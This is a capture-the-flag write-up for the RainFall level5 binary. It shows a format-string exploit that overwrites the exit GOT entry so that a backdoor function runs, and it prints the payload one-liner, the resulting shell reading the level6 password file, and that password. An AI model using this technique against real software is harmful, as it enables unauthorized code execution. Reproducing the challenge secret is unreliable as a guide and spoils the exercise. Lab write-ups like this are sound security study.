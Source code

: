 The difference, here, is that there is a backdoor. So we just need to put the address of the function `o` (0x080484a4) where the stack will read.
So, we could put it in the call of `exit`. In the function `exit`, we have this line :

>   0x080483d0 <+0>:	jmp    *0x8049838

And we got :

>(gdb) disas 0x8049838
>Dump of assembler code for function exit@got.plt:
>0x08049838 <+0>:	(bad)
>0x08049839 <+1>:	addl   $0xffffffe6,(%eax,%ecx,1)

So we can put the address of `o` right there : `0x08049838`

>level5@RainFall:~$ cat <(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"') - | ./level5
>whoami
>level6
>cat /home/user/level6/.pass
>d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31

```bash
su level6
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

